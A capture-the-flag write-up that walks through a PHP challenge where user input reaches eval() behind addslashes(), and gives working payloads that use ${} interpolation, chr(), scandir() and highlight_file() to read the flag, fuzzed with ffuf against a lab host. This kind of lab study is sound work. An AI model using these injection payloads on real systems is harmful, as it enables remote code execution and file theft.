





- we are given the following website


+ we have also been provided with the source code of the website , which has the following outline
```bash
.
├── build_docker.sh
├── challenge
│   ├── assets
│   │   ├── cyberpunk.gif
│   │   └── favicon.png
│   ├── controllers
│   │   └── TimeController.php
│   ├── index.php
│   ├── models
│   │   └── TimeModel.php
│   ├── Router.php
│   ├── static
│   │   ├── css
│   │   │   └── main.css
│   │   ├── js
│   │   │   ├── koulis.js
│   │   │   └── main.js
│   │   └── koulis.gif
│   └── views
│       └── index.php
├── config
│   ├── fpm.conf
│   ├── nginx.conf
│   └── supervisord.conf
├── Dockerfile
├── entrypoint.sh
└── flag

```
> first things first , let's check on the docker files
- the docker entrypoint has the follwing code 
```bash
#!/bin/bash

# Secure entrypoint
chmod 600 /entrypoint.sh

FLAG=$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 5 | head -n 1)

mv /flag /flag$FLAG

exec "$@"
```
this basically will move the flag file to something like /flage234ebc59ef....
a complately random filename ,and our goal is to get it .

> index.php

```php
<?php 
date_default_timezone_set('UTC');

spl_autoload_register(function ($name){
    if (preg_match('/Controller$/', $name))
    {
        $name = "controllers/${name}";
    }
    else if (preg_match('/Model$/', $name))
    {
        $name = "models/${name}";
    }
    include_once "${name}.php";
});

$router = new Router();
$router->new('GET', '/', 'TimeController@index');

$response = $router->match();

die($response);
```
the index.php sames small , it only has one route , and it makes the request go through the middleware TimeController

> TimeController.php 

```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}                                                   
```
this middleware seems to look for a get parameter named `format` if it doesn't find it it default to `r` , but if it finds it it creates a new object from the class TimeModel with the format paramter passed as argument

> TimeModel.php
```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
} 
```

so the object created  based on this code , has an eval 
```php
eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
```
this seems very sketchy , the output of this eval will be displayed later as shown in 

```php
return $router->view('index', ['time' => $time->getTime()]);
```
now the eval line is interesting because the user controlled input is slapped directly in and concatinated to the rest , so for instant  we would think about escapping the quotes with something like 
```php
?format='");$time=system('cat /flag*')
```
but infortunately its not that easy as we have a sort of user input sanitization before the parametter is injected , the sanitization is
```php
$this->format = addslashes($format);
```
the `addslashes()` function is a bottleneck here as it escapes quotes among other things in our payload , as stated in the php docs



+ doing a bit of reserch we can see that we can find that this can be bypassed



- nice so this seems to work 
- for the record this reminds me of another ctf challenge i've not been able to solve , it was about a php jail as well , where many characters are blacklisted it was `evangelist ` from `r3kapig 2025` so i got some inspiration from it .
- back to the idea i need to read the flag file , so i will be using a function to read files `highlight_file()` this funcion takes a string which is the location of the file
+ the file is in /flag....
+ we can't put `' "` in the payload , but we can do `chr()` and `ord()` 
- so our payload should look like `highlight_file(chr(47).<filename>)` , with char(47)='/'

since we don't know the exect file name i will be using another trick with `scandir()` , this function is like `ls` in linux , but it returns a php array , and we can access it's element by `scandir('/')[element_position]`

here's a simple demonstration of it
```php
php > var_dump(scandir(getcwd()));
array(10) {
  [0]=>
  string(1) "."
  [1]=>
  string(2) ".."
  [2]=>
  string(10) "Router.php"
  [3]=>
  string(6) "assets"
  [4]=>
  string(11) "controllers"
  [5]=>
  string(10) "exploit.py"
  [6]=>
  string(9) "index.php"
  [7]=>
  string(6) "models"
  [8]=>
  string(6) "static"
  [9]=>
  string(5) "views"
}

```
- so what am going to do is call `scandir()` on '/' and fuzz the array until we fall into the flag and then `highlight_file()` it! and a simple `ffuf` command does the trick
```bash
┌──(kali㉿kali)-[/tmp/lovetok/web_lovetok/challenge]
└─$ seq 1 30| ffuf -u 'http://94.237.57.115:59182/?format=${highlight_file(chr(47).scandir(chr(47))[FUZZ])}' -w - 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://94.237.57.115:59182/?format=${highlight_file(chr(47).scandir(chr(47))[FUZZ])}
 :: Wordlist         : FUZZ: -
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

27                      [Status: 200, Size: 1750, Words: 129, Lines: 34, Duration: 86ms]
2                       [Status: 200, Size: 1750, Words: 129, Lines: 34, Duration: 95ms]
22                      [Status: 200, Size: 1750, Words: 129, Lines: 34, Duration: 95ms]
8                       [Status: 200, Size: 1750, Words: 129, Lines: 34, Duration: 106ms]
7                       [Status: 200, Size: 1854, Words: 132, Lines: 36, Duration: 113ms]
6                       [Status: 200, Size: 1750, Words: 129, Lines: 34, Duration: 107ms]
17                      [Status: 200, Size: 1750, Words: 129, Lines: 34, Duration: 170ms]
29                      [Status: 200, Size: 1750, Words: 129, Lines: 34, Duration: 181ms]
12                      [Status: 200, Size: 1750, Words: 129, Lines: 34, Duration: 171ms]
:: Progress: [30/30] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: Errors: 0 ::

```
- you can notice that the element 7 of the array has a higher size , and if we visit it we get the flag


that's it for this time , hope you enjoyed it!
